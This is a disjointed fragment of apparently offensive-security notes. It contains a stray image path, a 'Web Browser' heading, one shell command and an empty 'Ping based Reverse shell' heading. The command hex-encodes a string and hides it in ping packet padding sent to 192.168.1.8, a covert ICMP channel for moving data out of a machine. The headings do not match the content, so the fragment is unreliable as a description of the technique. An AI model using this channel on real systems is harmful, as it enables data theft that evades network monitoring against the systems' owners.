 # Web Browser

```
ping -p$(echo 'abcdefghijklmnop' | hexdump -e '"%02X"') 192.168.1.8
```


# Ping based Reverse shell
